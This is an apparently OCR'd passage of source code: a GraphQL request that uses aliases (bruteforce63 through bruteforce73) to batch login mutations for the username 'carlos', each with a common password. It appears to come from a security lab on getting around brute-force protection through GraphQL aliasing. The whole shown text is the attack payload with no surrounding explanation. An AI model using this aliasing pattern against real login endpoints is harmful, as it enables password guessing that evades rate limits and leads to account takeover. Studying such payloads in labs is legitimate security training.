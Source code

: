 ```plain
bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
```